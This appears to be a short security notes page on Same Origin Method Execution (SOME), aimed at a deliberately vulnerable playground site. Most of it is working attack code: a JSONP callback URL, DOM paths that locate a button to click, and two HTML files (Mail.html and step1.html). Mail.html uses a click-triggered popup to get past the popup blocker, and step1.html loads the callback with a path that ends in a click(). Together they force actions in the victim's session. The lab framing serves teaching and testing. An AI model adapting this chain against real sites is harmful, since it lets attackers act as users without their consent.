 ## Same Origin Method Execution - SOME

Vulnerable Lab 
```
https://www.someattack.com/Playground/
```
Original Author Ben Hayak's Blog 
```
http://www.benhayak.com/2015/06/same-origin-method-execution-some.html
```

JavaScript Function ( Main Source )
```
<script> function changeColor(param) {
        document.getElementById("box").style.backgroundColor=param;
        } </script>
```
Color Picker
```
https://www.someattack.com/Playground/ColorPicker.php
```

Color Picker JavaScript Callback
```
https://www.someattack.com/Playground/ColorPicker.php?callback=changeColor
```
Target Reference ( Use Inspect Element )
```
document.getElementsByClassName("pure-controls")
document.getElementsByClassName("pure-controls")[0]
document.getElementsByClassName("pure-controls")[0].firstChild
document.getElementsByClassName("pure-controls")[0].firstChild.nextElementSibling
document.getElementsByClassName("pure-controls")[0].firstChild.nextElementSibling.click()
```

or 

```
document.body.firstElementChild.firstChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.nextElementSibling.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click
```
Mail.html
```
<script> 
function startSOME() { 
 window.open("step1.html");
 location.replace("https://www.someattack.com/Playground/");
} 
document.body.addEventListener("click",startSOME); //Popup Blocker trick
</script>

```
step1.html
```
<script>
function waitForDOM() {
      location.replace("https://www.someattack.com/Playground/ColorPicker.php?callback=document.body.firstElementChild.firstChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.nextElementSibling.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click");     
}
setTimeout(waitForDOM,3000);
</script>

```
